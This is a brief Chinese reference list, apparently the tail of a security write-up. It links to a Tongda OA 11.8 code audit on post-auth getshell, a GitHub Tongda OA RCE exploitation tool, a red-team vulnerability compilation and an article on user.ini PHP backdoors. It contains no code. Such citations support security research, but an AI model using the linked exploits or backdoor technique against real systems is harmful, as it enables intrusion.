## 参考文章
- [通达 OA 代码审计篇二 ：11.8 后台 Getshell](https://lorexxar.cn/2021/03/09/tongda11-8/)
- [通达OA综合利用工具_v1.0](https://github.com/xinyu2428/TDOA_RCE)
- [红队中的一些重点系统漏洞整理](https://github.com/r0eXpeR/redteam_vul)
- [user.ini文件构成的PHP后门|离别歌](https://www.leavesongs.com/PENETRATION/php-user-ini-backdoor.html)